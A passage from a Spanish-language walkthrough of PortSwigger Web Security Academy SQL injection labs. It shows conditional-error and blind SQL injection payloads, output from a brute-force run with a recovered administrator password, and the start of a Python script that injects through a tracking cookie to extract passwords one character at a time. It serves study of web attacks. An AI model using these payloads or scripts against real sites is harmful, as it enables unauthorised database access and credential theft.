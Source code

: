 En este caso cambiaremos la comparacion de `Welcome back!` por `r.status_code == 500` para que haga la comparacion del codigo de respuesta y ya lo demas que se ajuste a nuestro `request`

```shell
python3 SQLI_Conditional_Error.py
```

Info:

```
[┌] Fuerza bruta: JcghQJrdTU2JxTFw'||(select case when substr(password,20,1)='9' then to_char(1/0) else '' end from users where username='administrator')||'
[O] Password: sbwt8m6hn5m9igp9cta9
```

Una vez hecho esto ya lo tendriamos, nos logeamos y listo...

### Lab: Visible error-based SQL injection

En esta practica hay que hacer algo parecido a lo anterior, en este caso tenemos que sacar la contraseña del `admin` con inyeccion de SQL en una base de datos manejada por `PostgreSQL` y dependiendo de los errores que te de sera una cosa u otra...

```mysql
' and (select substring(password,1,1) from users where username='administrator')='a;
```

Para sacar la contraseña lo automatizaremos...

Yo llame a este archivo `.py` `SQLI_Conditional_Error_PostgreSQL.py`

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a0e00a00372e9a1808908f3003d00c7.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "JcghQJrdTU2JxTFw' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                                'session': 'uIgDP6wFHLAewh2oBh1xLh2Zz9tv5WI3'
                        }

                        p1.status(cookies['TrackingId'])

```